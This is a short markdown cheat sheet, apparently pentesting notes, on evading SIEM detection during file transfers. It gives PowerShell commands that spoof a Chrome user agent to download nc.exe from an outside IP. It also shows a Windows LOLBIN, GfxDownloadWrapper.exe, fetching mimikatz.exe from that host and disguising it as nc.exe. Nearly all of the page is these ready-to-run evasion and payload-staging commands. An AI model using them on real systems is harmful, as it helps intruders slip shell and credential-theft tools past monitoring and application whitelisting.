 ```yaml
---
# Detection and Evasion
---
```

## File Transfer DaE
**A lot of SIEM (Security Information and Event Management) are  checking    ** `user-agents` **to detect sus traffic.** But `user-agents` are not only used to identify web browsers, but anything acting as HTTP client and connecting to a web server via HTTP can have user agent string (like `cURL`, custom `Python` script or common tools like `sqlmap` and `nmap`). So File transfers could be detected. 
### Evasion Techniques
#### Changing User Agent:
1. **Listing out User Agents**
```powershell
PS C:\carnifex17>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```
2. **Request with Chrome User Agent**
```powershell
PS C:\carnifex17> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\carnifex17> Invoke-WebRequest http://13.13.13.13/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```
#### LOLBAS / GTFOBins
Application whitelisting may prevent you from using PowerShell or Netcat, but not from using `Living Off the Land` Binaries. As example LOLBIN is the Intel Graphics Driver for Windows 10(GfxDownloadWrapper.exe), which could be used to file transfer
1. **Transferring File with GfxDownloadWrapper.exe**
```powershell
PS C:\carnifex17> GfxDownloadWrapper.exe "http://13.13.13.13/mimikatz.exe" "C:\Temp\nc.exe"
```

---
